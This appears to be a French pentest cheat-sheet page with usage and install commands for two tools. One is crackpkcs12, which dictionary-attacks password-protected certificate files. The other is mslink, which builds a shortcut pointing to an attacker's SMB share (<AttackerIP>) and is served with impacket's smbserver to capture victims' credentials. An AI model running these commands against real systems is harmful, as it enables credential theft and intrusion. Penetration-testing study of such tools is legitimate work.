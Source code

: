 # Tools

- [crackpkcs12](#crackpkcs12)
- [mslink](#mslink)


## crackpkcs12

Crackpkcs12 est un outil qui permet de cracker des certificat protégé par mots de passe.
<br>
<br>
Exemple d'utilisation:

```
crackpkcs12 -d /usr/share/wordlists/rockyou.txt cert.pfx
```

URL:
```
https://sourceforge.net/projects/crackpkcs12/files/
```
Installation:
```
tar -xf crackpkcs12*
cd crackpkcs12*
./configure
make
sudo make install
```
<br>
<br>

## mslink

mslink permet de créer un raccourci qui doit pointer vers un partage SMB par exemple, l'avantage est que l'utilisateur n'a pas besoin de le lancer pour qu'il fonctionne.

```
./mslink.sh -l notimportant -n shortcut -i \\\\<AttackerIP>\\<ShareName> -o shortcut.lnk
```

URL:
```
http://www.mamachine.org/mslink/index.en.html
```
Suite (exemple):
```
python3 /opt/impacket/examples/smbserver.py -smb2support <ShareName> .
```

Peut également être réaliser avec Responder
